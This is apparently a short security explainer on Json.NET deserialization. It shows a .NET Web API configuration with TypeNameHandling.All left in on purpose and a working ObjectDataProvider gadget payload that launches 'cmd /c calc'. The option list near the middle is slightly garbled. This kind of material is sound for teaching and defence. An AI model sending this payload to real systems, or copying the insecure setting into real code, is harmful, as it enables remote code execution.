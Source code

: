 
**Vulnerable Code**

```c#

// .NET Framework
 public class StartUp
{
    public void Configuration(IAppBuilder builder)
    {
        var config = new HttpConfiguration();
        config.Routes.MapHttpRoute(
            name: "DefaultApi",
            routeTemplate: "api/{controller}/{id}",
            defaults: new { id = RouteParameter.Optional }
        );
        config.MapHttpAttributeRoutes();
        config.Formatters.XmlFormatter.SupportedMediaTypes.Clear();
        config.Formatters.JsonFormatter.SerializerSettings = new
            JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.All
            };

        builder.UseWebApi(config);
    }
}

```
JSON deserialization can get abused in **NewtonSoft JSON.net** when ``TypeNameHandling`` is different from ``None`` in the ``JsonSerializationSettings`` and by default it is set to ``None``

It can have the following options

 - None, Do not include the type name when serializing types Objects, Include the .NET type name when serializing into a JSON object structure.
 - Array, Include the .NET type name when serializing into a JSON array structure.
 - All, Always include the .NET type name when serializing.
 - Auto, Include the .NET type name when the type of the object being serialized is not the same as its declared type.

Not all objects can get deserialized with JSON .NET. The object needs to have either a empty constructor or one constructor with parameters. This is because JSON.NET internally uses reflection to initialize objects

**Unsecure Payload**

```json
{
    "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName": "Start",
    "MethodParameters": {
        "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "$values": [ "cmd", "/c calc" ]
    },
    "ObjectInstance": { "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" }
}

```
